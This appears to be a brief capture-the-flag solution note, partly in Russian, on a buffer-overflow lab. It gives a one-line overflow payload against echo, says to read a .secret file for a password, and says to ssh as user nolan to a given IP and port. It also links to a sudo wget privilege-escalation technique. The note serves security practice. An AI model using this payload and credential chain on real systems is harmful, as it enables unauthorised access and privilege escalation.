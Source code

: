 


![image](https://github.com/stensil4rt/CodeBy/assets/62753044/129f46fa-dfea-4027-aa7e-82b8a1a399c2)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ec09e955-ff2b-4d52-9d4a-46465ac1556a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7cee6efb-9ccb-4798-9a2a-ddec783d331d)



https://cocomelonc.github.io/pwn/2021/10/19/buffer-overflow-1.html

./usr/bin/echo $(python3 -c 'print("A"*8001+"\x01")')

Читаем файл .secret там пароль

Заходим по ssh ssh nolan@62.173.140.174 -p 18822

https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-wget-privilege-escalation/




